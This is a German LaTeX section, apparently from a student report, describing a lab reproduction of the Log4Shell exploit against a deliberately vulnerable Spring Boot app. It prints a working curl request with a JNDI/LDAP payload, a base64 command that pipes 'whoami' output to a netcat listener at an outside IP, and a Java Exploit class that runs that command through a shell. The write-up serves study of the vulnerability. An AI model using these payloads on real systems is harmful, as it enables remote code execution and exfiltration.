%! Author = chaorn
%! Date = 07.01.23

\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden, wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp}
Es beinhaltet eine Java Spring Boot Web Applikation, die mit einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.

Des Weiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren.
Hierfür verwendet wurde ein weiteres Git Repository, in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird.
Dieses Repository wurde jedoch aus GitHub entfernt.
Das Kompilat des schädlichen \gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}

Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden.
In der Anfrage muss nun nur noch die \gls{ip}-Adresse mit Port angegeben werden, unter denen der \gls{ldap}-Server erreichbar ist.
%! Author = charon
%! Date = 1/7/23

\begin{lstlisting}[language=bash,label={lst:finalExploit.sh}]
# will execute 'touch /tmp/pwned'
curl target-ip:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
\end{lstlisting}
\captionof{lstlisting}{\texttt{JNDI-Lookup-Request}: Finaler Lookup Exploit}
\bigskip

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet.
Daher liegt das auszuführende Skript als base64-encoded String vor.
Die \gls{bash} Befehle, die hier der Reihe nach ausgeführt werden, sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}.

Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Reverse-engineert werden.
Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:
%! Author = charon
%! Date = 1/7/23
\begin{lstlisting}[language=java, label={lst:Exploit.java}]
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("base64 -D <<< YmluL2Jhc2ggfCB3aG9hbWkgfCBuYyAxOTIuMTY4LjE4Ni4yMTYgOTk5OQ== | sh ");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
\end{lstlisting}
\captionof{lstlisting}{\texttt{Exploit.java}: Beispiel Exploit Code}

%\begin{figure}[!htb]
%    \begin{center}
%        
\includegraphics[scale=0.3]{images/ExploitAufbau}
%    \end{center}
%    \caption{Exploit Aufbau}
%\end{figure}

